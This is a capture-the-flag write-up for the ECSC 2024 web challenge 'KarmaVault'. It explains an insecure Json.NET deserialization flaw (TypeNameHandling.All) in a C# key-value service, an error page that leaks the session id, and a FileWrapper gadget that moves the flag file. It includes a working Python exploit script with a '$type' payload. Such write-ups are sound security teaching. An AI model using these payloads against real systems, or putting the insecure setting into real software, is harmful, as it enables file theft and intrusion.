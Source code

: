 # ECSC 2024 - Jeopardy

## [web] KarmaVault (21 solves)

KarmaVault is a new KV service, it was developed very fast by our
programmers and our cybersecurity team assured us that the software is
perfectly secure and ready to land in production.

[https://karmavault.challs.jeopardy.ecsc2024.it](https://karmavault.challs.jeopardy.ecsc2024.it)

Author: Vittorio Mignini <@M1gnus>

## Overview

The challenge consists in a simple KV store. The offered features are:

* Get current entries
* Backup an entry
* Delete an entry
* Create a new entry
* Download an entry
* Visualize an entry

The backend is coded in C#, and requests body are parsed using `Newtonsoft.Json` library.
Every session has its own folder, in which kv files are stored.

![home](./writeup/home.png)

## Solution

In `Program.cs`, Newtonsoft.Json is configured to have a very weak type validation:

```cs
builder.Services.AddControllers().AddNewtonsoftJson(options => {
    options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
});
```

This allows an attacker to deserialize objects of arbitrary type. A valid
gadget is represented by the class `FileWrapper`. Using that class an attacker
can move the flag inside his session folder and then download it like any
other kv entry.

`FileWrapper` is a class which uses setter to implement business logic for
a variety of operations. By setting `source` and `path` source is moved to
path.

Using the endpoint `POST /api/v1/Files`, specifically the field
`NewFile.metadata` an attacker can deserialize `FileWrapper` with
appropriate `source` and `path` fields.

The session id parameter can be obtained with a request to the endpoint
`GET /api/v1/Files/{filename}` with a filename that doesn't exists,
the error page contains the session id.

![session-id-500](./writeup/exception.png)

## Exploit

```py
import os
import re
import requests

BASE_URL = os.environ.get("BASE_URL", "http://localhost/api/v1")
SID_RE = re.compile(r".+/vault/(.+)/nonexist.+")

s = requests.Session()

# Recover session id
sid = SID_RE.search(s.get(f"{BASE_URL}/Files/nonexist").text).group(1)
print(f"RECOVERED SESSION ID: {sid}")

# Copy flag in session folder
s.post(f"{BASE_URL}/Files", json={
    "filename": "exploit",
    "key": "exploit",
    "value": "exploit",
    "metadata": {
        "$type": "backend.FileWrapper, backend",
        "source": "/flag.txt",
        "path": f"/tmp/vault/{sid}/flag.txt",
    },
})

# Recover flag
flag = s.get(f"{BASE_URL}/Files/flag.txt/content").text
print(f"FLAG: {flag}")
```

## Resources

<https://exploit-notes.hdks.org/exploit/web/security-risk/json-net-deserialization/>
